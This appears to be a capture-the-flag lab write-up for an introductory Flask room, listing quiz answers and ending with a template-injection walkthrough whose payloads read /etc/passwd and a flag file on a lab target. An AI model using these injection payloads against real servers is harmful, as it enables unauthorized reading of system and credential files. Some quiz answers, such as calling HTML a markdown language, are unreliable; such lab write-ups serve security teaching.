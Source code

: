 # Introduction to Flask

- Let's go!

	  no answer needed

- Which environment variable do you need to change in order to run Flask?

	- `FLASK_APP`

- What's the default deployment port used by Flask?

	- `5000`

- Is it possible to change that port? (yay/nay)

	- `yay`

- Does Flask support POST requests? (yay/nay)

	- `yay`

- What markdown language can you use to make templates for Flask? 

	- `html`

- Awesome!

	  no answer needed

- What's inside /home/flask/flag.txt ?

	- Visit `http://<TARGET_IP>:5000/vuln`
	- Now add `?name={{person.password}}`
	- Now instead use `{{ get_user_file("/etc/passwd") }}`
	- And now try with `http://<TARGET_IP>:5000/vuln?name={{%20get_user_file(%22/home/flask/flag.txt%22)%20}}`
	- `THM{**************}`

- See you in the next room!

	  no answer needed



